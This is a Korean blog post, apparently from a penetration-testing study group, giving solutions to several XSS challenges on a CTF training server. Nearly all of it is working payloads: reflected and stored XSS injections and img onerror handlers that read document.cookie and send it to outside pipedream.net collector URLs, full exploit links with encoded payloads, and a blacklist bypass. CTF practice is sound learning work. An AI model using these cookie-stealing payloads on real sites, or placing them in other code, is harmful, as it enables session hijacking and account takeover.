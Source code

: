 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[CTF] CTF 문제 풀이: XSS"
excerpt: "모의해킹 취업반 스터디 7기 9주차"

date: 2024-12-18
last_modified_at: 2024-12-30

categories: [CTF]
tags: [TIL, WEB]
---
```


# XSS 1
## notice_list.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-2.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-3.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-4.gif?raw=true)

# xss2
## notice_list.php의 search 부분 -> reflected xss
```js
');
let c = document.cookie;
console.log(c);
let i = new Image();
console.log(i);
i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + c;
let tmp=('
```

link: <http://ctf.segfaulthub.com:4343/xss_2/notice_list.php?option_val=username&board_result=');let+c=document.cookie;console.log(c);let+i=new+Image();console.log(i);i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;let+tmp=('&board_search=%F0%9F%94%8D&date_from=&date_to=>

# xss3
notice_list.php의 search 부분은 html entity로 치환
## mypage -> reflected xss

```html
<img src=. onerror='
let c=document.cookie;
let i=new Image();
i.src="https://eot2jevtyijbm2l.m.pipedream.net/?cookie="+c;'>
```
+ -> %2B

# xss4
## notice_list -> stored xss
script, alert <- black list filtering
`<img src=. onerror="prompt(1)">`

```html
<img src=. onerror="
let cookie = document.cookie;
let img = new Image();
img.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + cookie;
">
```

# xss5

# xss6
# login.php
```js
');
window.onload=function() {
    let c=document.cookie;
    let i=new Image();
i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="+c;
};
console.log('
```

<http://ctf.segfaulthub.com:4343/xss_7/login.php?id=1');let+tmp="hello";let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Btmp;console.log('&pw=1>